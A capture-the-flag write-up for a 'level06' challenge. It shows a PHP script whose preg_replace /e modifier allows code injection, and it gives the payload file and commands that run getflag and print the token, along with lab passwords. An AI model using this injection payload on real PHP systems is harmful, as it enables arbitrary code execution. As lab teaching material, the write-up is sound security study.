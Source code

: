 ```bash
$ su level06 -> viuaaale9huek52boumoomioc
```

### Vulnerability Assessment

Upon accessing the terminal as `level06`, an executable (`level06`) and a PHP script (`level06.php`) are present. The PHP script uses the `preg_replace` function with the `/e` modifier, which is deprecated due to security concerns:

```php
#!/usr/bin/php
<?php
function y($m) {
	$m = preg_replace("/\\./", " x ", $m);
	$m = preg_replace("/@/", " y", $m);
	return $m;
}

function x($y, $z) {
	$a = file_get_contents($y);
	$a = preg_replace("/(\\[x (.*)\\])/e", "y(\\"\\\\2\\")", $a);
	$a = preg_replace("/\\[/", "(", $a);
	$a = preg_replace("/\\]/", ")", $a);
	return $a;
}

$r = x($argv[1], $argv[2]);
print $r;
?>

```

The critical vulnerability here is the `/e` modifier in `preg_replace`, which allows the replacement string to be evaluated as PHP code. This can lead to arbitrary code execution if exploited correctly.

### Exploit

To exploit this vulnerability, a file is crafted with a payload that will be executed as PHP code due to the `/e` modifier. The payload uses the `$_GET` array to execute a command, in this case, `getflag`. The backticks (```) are used for command execution in PHP. In our case, everything between [x  ] will be executed as PHP command.

The process involves:

1. Creating a file with the payload `[x {$_GET[`getflag`]}]`.
2. Running the PHP script with the created file as an argument.

The execution of the PHP script with this payload would look like:

```bash
$ echo '[x {$_GET[`getflag`]}]' > /tmp/flag
$ ./level06 /tmp/flag
PHP Notice:  Undefined index: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
```